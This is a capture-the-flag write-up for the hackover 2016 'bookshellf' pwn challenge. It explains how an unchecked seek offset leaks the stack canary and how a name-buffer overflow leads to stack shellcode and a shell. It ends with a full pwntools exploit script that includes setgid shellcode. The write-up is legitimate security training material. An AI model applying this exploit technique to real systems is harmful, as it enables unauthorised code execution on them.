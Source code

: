 ```yaml
---
layout: post
title: "hackover 2016: bookshellf (pwn 72)"
author: wolvg, creed
categories: writeup
tags: [cat/pwn, tool/pwntools]
---
```


* **Category:** pwn
* **Points:** 72
* **Description:**


>
>Our business market analysis told us that the cyber kids of today don't read books anymore. Cyber parents are desperate about their cyber kid's education. Therefore we released a new cyber ebook reader which sends cyber waves directly to the kids brains to make them read electronically. Currently we are in negotiations with many copyright owners to provide a larger library. For now you can read the work by H.P. Lovecraft, which is public cyber domain.

>nc challenges.hackover.h4q.it 31337 

## Write-up
When we start the binary we are presented with a banner and menu.
```
 _              _       _        _ _  __
| |__  ___  ___| |__ __| |_  ___| | |/ _|
| '_ \/ _ \/ _ \ / /(_-< ' \/ -_) | |  _|
|_.__/\___/\___/_\_\/__/_||_\___|_|_|_|
                    with 20% more love!
== main menu
0) list books
1) read book
2) exit
> 
```

First we can list the available books (stored on a folder on the remote) and then read them. In order to read a book we have to enter its name, e.g., dagon.txt. The program then reads 511 bytes of the book into a buffer, prints it, and presents the user with the question wheter the user want to continue reading, stop reading or seek to a specific offset.
This offset is neither checked against the size of the book nor is it checked if it is positive. This means we can read 511 bytes from wherever we want. As the buffer is copied via strncpy we can only read from an adress until a 0-byte is encountered.
Additionally, when entering the name of book we want to read, we can overflow the 'book_to_read' buffer.

Let's checksec:
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL
gdb-peda$ 
```
Here's the plan:

1. leak canary and saved rbp
2. overwrite canary with leaked canary, overwrite ret address with rbp+offset, write shellcode on the stack

After some exploit fiddling we get a shell on the remote and, of course, we are here for the flag.

```
$ ls -al
total 32
drwxr-xr-x 4 root root  4096 Oct  6 19:57 .
drwxr-xr-x 4 root root  4096 Oct  6 19:57 ..
-rwxr-sr-x 1 flag flag 10232 Oct  6 19:57 bookshellf
dr-xr-xr-x 2 root root  4096 Oct  6 19:57 library
-rwxr-xr-x 1 root root    68 Oct  6 19:57 run.sh
dr-xr-xr-x 2 root flag  4096 Oct  6 19:57 secret
$ cd secret
$ ls -al
total 12
dr-xr-xr-x 2 root flag 4096 Oct  6 19:57 .
drwxr-xr-x 4 root root 4096 Oct  6 19:57 ..
-r--r----- 1 root flag   62 Oct  6 19:57 flag.txt
$ cat flag.txt
$ whoami
user
```
Ok, it looks like we are not allowed to read the flag. Back to IDA again.
Apparently there is that:
```
[...]    
seteuid(v1);
v2 = getuid();
setegid(v2);
[...]
```

So we have to change the gid to the flag gid.
```
user:x:1000:1000::/home/user/:/usr/sbin/nologin
flag:x:1001:1001::/home/flag/:/usr/sbin/nologin
```

We added the following line to our exploit
```
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
```
and executed it against the remote. Now we are allowed the read the flag:

```
hackover16{iN_h1s_hOusE_aT_Rlyeh_d3ad_Cthulhu_waItS_drEamIng}
```

Our final exploit:

```python
from pwn import *
import binascii

context.terminal = ['urxvtGDB.sh']
#context.log_level = 'DEBUG'
context.arch = 'amd64'

#p = process('./bookshellf')
p = remote('challenges.hackover.h4q.it', 31337)
p.recvuntil('>')

#gdb.attach(p,
#         'b *0x400fcf')
p.sendline('1')
p.recvuntil('>')

index = '30729'
p.sendline('dagon.txt')

p.recvuntil('>')
p.sendline('s' + index)
p.recvuntil('!\n\n\n')

received = p.recvline()
addr = '\x00' + received[8:13] + '\x00' * 2
addr = addr[::-1]

addr_int = int(binascii.hexlify(addr), 16) + 0x100
print'addr = 0x' + hex(addr_int)

canary = '\x00'
canary += received[0:7]


p.sendline('n') # stop reading
p.recvuntil('>')
p.sendline('1')
p.recvuntil('>')

offset = cyclic_find(0x646d6178)

payload = 'B' * 8   #rbp
payload += p64(addr_int)
shellcode = ''
shellcode += asm(shellcraft.amd64.linux.setgid(1001), arch="amd64")
shellcode += asm(shellcraft.amd64.linux.sh(), arch="amd64")

p.sendline('asdf' + 'D' * (offset - 4) + canary + payload + '\x90' * 0x200 + shellcode)
p.clean_and_log()
p.interactive()
```
